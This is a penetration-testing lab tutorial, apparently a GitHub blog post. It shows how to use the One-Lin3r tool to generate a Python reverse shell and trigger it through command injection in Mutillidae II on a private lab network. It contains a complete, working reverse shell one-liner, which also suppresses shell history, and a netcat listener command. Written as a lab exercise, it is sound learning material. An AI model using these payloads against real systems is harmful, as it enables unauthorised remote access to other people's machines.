

# Reverse Shell: Getting Started with One-Lin3r

[🇮🇩 Baca dalam Bahasa Indonesia](command-injection-reverse-shell-id.md)

Hi everyone,

In my previous lab exercises, I often found myself searching for reverse shell payloads whenever I wanted to test a web application vulnerability. 

Remembering different payloads for Bash, Python, PHP, Perl, Ruby, or PowerShell can be difficult, especially since each environment may require a different approach.

While exploring this topic, I came across a simple tool called One-Lin3r. It generates one-line reverse shell payloads for multiple platforms, making it much easier to prepare payloads during penetration testing.

In this article, I'll demonstrate how I used One-Lin3r in my lab environment to generate a Python reverse shell and execute it through a Command Injection vulnerability.



---

## Lab Topology

| Role | Description | IP |
| :--- | :--- | :--- |
| **Attacker** | Attacking machine (Kali Linux) | `10.10.10.149` |
| **Target Web** | Ubuntu Server running Mutillidae | `10.10.10.2` |

**Network Topology:**

```text
+-------------------------------------------------+
|            VMware - 10.10.10.0/24               |
|                                                 |
|  +---------------+      +-------------------+   |
|  |  Kali Linux   |      |   Ubuntu Server   |   |
|  |  [ATTACKER]   |      |   [TARGET WEB]    |   |
|  |  nc Listener  | <--- |   Reverse Shell   |   |
|  |  10.10.10.149 |      |   10.10.10.2      |   |
|  |  Port: 9001   |      |   Mutillidae      |   |
|  +---------------+      +-------------------+   |
+-------------------------------------------------+
```

---

Generating a reverse shell payload is straightforward. Simply select one of the available payloads and provide the target IP address and port.

1. Type `OneLiner > use linux/python/socket_reverse`
2. Prepare the payload with your attacker host details:
   ```text
   Attacker Host
   IP Address : 10.10.10.149
   Port       : 9001
   ```
3. Then see the output as shown in the image below


---

This can be fully done in Notepad or VSCode to easily edit the address to connect back to your attacking machine.

```text
python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();'
```
---

On the attacker host, you need to open a terminal with a Netcat listener and simply run the command below:

```text
nc -lvp 9001
```

Let's try executing the reverse shell payload above using a command injection vulnerability on the Mutillidae II application.


It can be verified that the reverse shell has connected back to the attacker's machine.


Here it can be seen that the interactive shell connection has been successfully established through Netcat.

### Conclusion

One-Lin3r is a simple yet useful tool for quickly generating reverse shell payloads during penetration testing.

Instead of remembering dozens of payload variations, we only need to select the appropriate language, configure the attacker's IP address and listening port, and copy the generated command.

In the next article, I will switch perspectives and investigate what happens on the target server after the reverse shell is established. We'll examine the running processes, application logs, and network connections left behind by the attack.

**References:**

* **Original Article (Rio Asmara):** [Reverse Shell – One-Lin3r](https://rioasmara.com/2018/12/17/reverse-shell-one-lin3r/)
* **Github Tools:** [D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r)
* **latesthackingnews** [What is a reverse shell?](https://latesthackingnews.com/2026/06/16/what-is-a-reverse-shell/)
* **offseckit** [reverse shell cheatsheet](https://offseckit.com/blog/reverse-shell-cheat-sheet)
* **PayloadAllTheThings:** [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

Thank you for reading! 

If you have any questions, feedback, or anything you'd like to discuss regarding reverse shells, feel free to [open a discussion](https://github.com/iMoon07/Penjelajah-CyberSecurity/discussions) or create an [issue](https://github.com/iMoon07/Penjelajah-CyberSecurity/issues) in this repository. Also, don't forget to drop a ⭐ (Star)! Hahaha.
